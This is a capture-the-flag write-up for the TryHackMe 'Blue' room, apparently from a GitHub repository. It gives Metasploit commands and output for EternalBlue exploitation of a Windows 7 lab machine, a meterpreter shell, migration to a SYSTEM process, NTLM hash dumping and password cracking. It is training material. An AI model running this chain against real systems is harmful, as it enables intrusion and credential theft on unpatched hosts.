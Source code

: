 # TryHackMe Blue test

Here is how I solved the Blue test on [TryHackMe](https://tryhackme.com/room/blue), where your goal is to hack a Windows machine, find the passwords for the admins and get the 3 flags hidden in the system.

## Testing ports and vulnerabilities

Initial scan done on `scans/initial.nmap`.
```sh
$ nmap -sC -sV -oN initial.nmap 10.10.60.209
```

*Complete scan done with vulscan on `scans/vulscan.nmap`.
```sh
$ nmap -sC -sV --script=vulscan/vulscan.nse -oN vulscan.nmap 10.10.60.209
```

*Found vulnerability ms12-020 on port 3389 on `scans/ms12-020.nmap`.
```sh
$nmap -sV --script=rdp-vuln-ms12-020 -oN ms12-020.nmap -p 3389 10.10.60.209
```

*Found vulnerability ms17-010 on port 445 on `scans/smb-vuln`, which will be used on this test.
```sh
$nmap -sV --script smb-vuln* -oN smb-vuln.nmap -p 445 10.10.60.209
```

## Abusing vulnerabilities
Found metasploit exploits on [SMB Penetration Testing (Port 445)](https://www.hackingarticles.in/smb-penetration-testing-port-445/)

Use the exploit to create a session with the machine
```sh
msf5 > use exploit/windows/smb/ms17_010_eternalblue
msf5 exploit(windows/smb/ms17_010_eternalblue) > set rhost 10.10.60.209
rhost => 10.10.60.209
msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit
```
After session created, pressed ctrl+z to minimize the session and converted the shell to meterpreter shell with:
```sh
sf5 exploit(multi/samba/usermap_script) > use post/multi/manage/shell_to_meterpreter
msf5 post(multi/manage/shell_to_meterpreter) > set session 2
session => 2
msf5 post(multi/manage/shell_to_meterpreter) > exploit
```
Select the new session created to use.
`msf5 post(multi/manage/shell_to_meterpreter) > sessions -i 3`

Check the system info.
```sh
meterpreter > sysinfo
Computer        : JON-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x86/windows
```
 
Open a shell and check if we have the permissions.
```sh
meterpreter > shell
Process 768 created.
Channel 3 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Find a running process running on the `NT AUTHORITY\SYSTEM` user and migrate to it.
```sh
meterpreter > ps
Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]                                                   
 4     0     System                x64   0                                      
 1292  1284  cmd.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\cmd.exe

...

meterpreter > migrate 1292
[*] Migrating from 2568 to 1292...
[*] Migration completed successfully.
```

Find the users on the machine and their passwords.
```sh
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
``` 

Use `hashdump` to dump the hashes.
```sh
msf5 exploit(multi/manage/shell_to_meterpreter) > use post/windows/gather/hashdump
msf5 post(windows/gather/hashdump) > set SESSION 4
SESSION => 4
msf5 post(windows/gather/hashdump) > run

[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 55bd17830e678f18a3110daf2c17d4c7...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...

Jon:"Nah boi, I ain't sharing nutting with you"

[*] Dumping password hashes...


Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::


[*] Post module execution completed
```

Check the credentials on the local database
```sh
msf5 post(windows/gather/hashdump) > creds
Credentials
===========

host          origin        service        public         private                                                            realm  private_type  JtR Format
----          ------        -------        ------         -------                                                            -----  ------------  ----------
10.10.60.209  10.10.60.209  445/tcp (smb)  administrator  aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0         NTLM hash     nt,lm
10.10.60.209  10.10.60.209  445/tcp (smb)  guest          aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0         NTLM hash     nt,lm
10.10.60.209  10.10.60.209  445/tcp (smb)  jon            aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d         NTLM hash     nt,lm
```
Use John the Reaper to crack the passwords with the rockyou.txt wordlist.
```sh
msf5 post(windows/gather/hashdump) > useauxiliary/analyze/crack_windows
msf5 auxiliary(analyze/crack_windows) > set CUSTOM_WORDLIST /opt/pwdlist/rockyou.txt
CUSTOM_WORDLIST => /opt/pwdlist/rockyou.txt
msf5 auxiliary(analyze/crack_windows) > run
...
[+] Cracked Hashes
==============

 DB ID  Hash Type  Username  Cracked Password  Method
 -----  ---------  --------  ----------------  ------
 3      nt         jon       alqfna22          Single

[*] Auxiliary module execution completed
```

## Finding the flags

As easy as it sounds, the flags are 3 text files that we need to read. To this I just run a simple search and `cat` the files to read it`s content.

```sh
meterpreter > search -f flag*.txt
```
